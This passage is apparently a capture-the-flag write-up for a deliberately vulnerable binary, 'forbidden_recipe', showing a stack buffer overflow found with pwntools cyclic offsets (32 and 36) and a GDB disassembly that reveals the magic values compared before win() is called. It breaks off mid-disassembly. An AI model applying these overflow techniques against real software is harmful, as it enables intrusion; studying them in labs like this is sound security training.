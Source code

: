 Then, from the code, we can see that there is an `if` check that compares with a constant value. If true, it calls the `win()` function and prints the flag. However, the two variables are initially set to 0. Then I remembered that when we run the ELF file
```
└─$ ./forbidden_recipe   
Welcome back to Kogarashi Café.  
Barista: 'I remember you... what will it be this time?'  
hello  
Barista: 'Hmm... that's not quite right. Order codes: 0x0, 0x0'  
Barista: 'Try again, I know you'll get it.'
```
There is a value leak from the program, so I thought it might be related to the two variables `local_10` and `local_14`. I considered using Python's `pwn` library with `cyclic` to overwrite these values and find the offset
```
└─$ ./forbidden_recipe                                                          
Welcome back to Kogarashi Café.  
Barista: 'I remember you... what will it be this time?'  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa  
Barista: 'Hmm... that's not quite right. Order codes: 0x6161616a, 0x61616169'  
Barista: 'Try again, I know you'll get it.'
```
We can see that the values have been changed. Next, I found the offset using `cyclic_find()`.
```
>>> cyclic_find(0x6161616a)
36
>>> cyclic_find(0x61616169)
32
```
The offsets are 32 and 36. So, we need to adjust the payload to fit our desired values at those offsets. To find both values, I used GDB to analyze the disassembled code
```
pwndbg> disass vuln  
Dump of assembler code for function vuln:  
  0x080485e6 <+0>:    push   ebp  
  0x080485e7 <+1>:    mov    ebp,esp  
  0x080485e9 <+3>:    sub    esp,0x38  
  0x080485ec <+6>:    mov    DWORD PTR [ebp-0xc],0x0  
  0x080485f3 <+13>:   mov    DWORD PTR [ebp-0x10],0x0  
  0x080485fa <+20>:   sub    esp,0xc  
  0x080485fd <+23>:   push   0x80487c8  
  0x08048602 <+28>:   call   0x8048430 <puts@plt>  
  0x08048607 <+33>:   add    esp,0x10  
  0x0804860a <+36>:   sub    esp,0xc  
  0x0804860d <+39>:   push   0x80487ec  
  0x08048612 <+44>:   call   0x8048430 <puts@plt>  
  0x08048617 <+49>:   add    esp,0x10  
  0x0804861a <+52>:   sub    esp,0x4  
  0x0804861d <+55>:   push   0x28  
  0x0804861f <+57>:   lea    eax,[ebp-0x30]  
  0x08048622 <+60>:   push   eax  
  0x08048623 <+61>:   push   0x0  
  0x08048625 <+63>:   call   0x80483f0 <read@plt>  
  0x0804862a <+68>:   add    esp,0x10  
  0x0804862d <+71>:   cmp    DWORD PTR [ebp-0xc],0xc0ff33  
  0x08048634 <+78>:   jne    0x8048656 <vuln+112>  
  0x08048636 <+80>:   cmp    DWORD PTR [ebp-0x10],0xdecafbad  
  0x0804863d <+87>:   jne    0x8048656 <vuln+112>  
  0x0804863f <+89>:   sub    esp,0xc  
  0x08048642 <+92>:   push   0x8048824  
  0x08048647 <+97>:   call   0x8048430 <puts@plt>  
  0x0804864c <+102>:  add    esp,0x10  
  0x0804864f <+105>:  call   0x804856b <win>  
  0x08048654 <+110>:  jmp    0x804867c <vuln+150>  
  0x08048656 <+112>:  sub    esp,0x4  
```